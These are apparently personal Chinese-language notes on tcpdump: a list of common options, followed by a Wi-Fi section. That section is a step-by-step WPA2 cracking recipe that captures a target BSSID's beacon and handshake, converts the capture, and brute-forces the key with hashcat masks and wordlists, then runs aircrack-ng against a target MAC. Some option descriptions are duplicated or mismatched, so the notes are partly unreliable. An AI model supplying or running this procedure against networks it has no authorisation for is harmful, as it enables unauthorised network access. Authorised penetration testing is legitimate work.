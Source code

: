 #  Tcpdump
{docsify-updated}

- [Tcpdump](#tcpdump)
  - [常用参数](#常用参数)
  - [Wifi Mac 帧](#wifi-mac-帧)

### 常用参数
+ `-c [count]`: 抓取指定数量的包
+ `-i [interface]`: 指定要抓包的接口,如果-i 后没有加接口，默认抓取所有接口的流量
+ `-L`: 设置为监听模式，只支持IEEE 802.11 Wi-Fi 接口，并且只支持一些操作系统
+ `-w [file]`: 指定将抓包数据写入一个文件而不是打印出来, `tcpdump port 80 -w capture_file`
+ `-U`: 指定缓存，如果设置了-w，那么抓包数据会立即写入文件，没有指定-w，数据会被缓存然后输出
+ `-X`: 以十六进制格式输出
+ `-S`: 抓取整个包
+ `-nn`: 不解析主机名或端口名
+ `-vvv`: 输出更多
+ `host [ip]`: 过滤指定IP的包
+ `src [ip]`: 根据源地址过滤
+ `dst [ip]`: 根据目的地址过滤
+ `port [port]`: 查看指定端口的流量
+ `src port [port]`: 查看指定源端口的流量, `tcpdump port 8050`
+ `dst port [port]`: 查看指定目的端口的流量， `tcpdump src port 8050`
+ `dst port [port]`: 查看指定目的端口的流量， `tcpdump dst port 8050`
+ `tcpdump [protocol]`: 查看指定协议的流量，`tcpdump icmp`


### Wifi Mac 帧
<center><img src="pics/wifi-frame.jpg" width="60%"></center>

软件安装：
+ brew install hashcat
+ brew install hcxtools
+ brew install wireshark

1. export BSSID=18:9e:2c:64:88:3c
2. networksetup -listallhardwareports
3. sudo airport -z
4. sudo airport -c153
5. sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 1 -i en0 -w beacon.cap
6. sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i en0 -w handshake.cap
7. mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap
8. hcxpcapngtool -o hashfile capture.cap
9. hashcat -m 22000 hashfile wpa2-wordlists/full.txt
10. hashcat -m 22000 -a3 capture.hccapx "?d?d?d?d?d?d?d?d"
11. hashcat -m 22000 hashfile wpa.txt -r Probable-Wordlists/Analysis-Files/ProbWL-547-rule-probable-v2.rule

https://hashcat.net/cap2hashcat/

aircrack-ng -1 -a 1 -b 18:9e:2c:64:88:3c 


1. Install aircrack-ng:`brew install aircrack-ng`
2. `sudo airport -s`
3. `sudo airport en1 sniff [CHANNEL]`
4. New Terminal Window: `aircrack-ng -1 -a 1 -b [TARGET_MAC_ADDRESS] [CAP_FILE]`
// Notes: the cap_file will be located in the /tmp/airportSniff*.cap.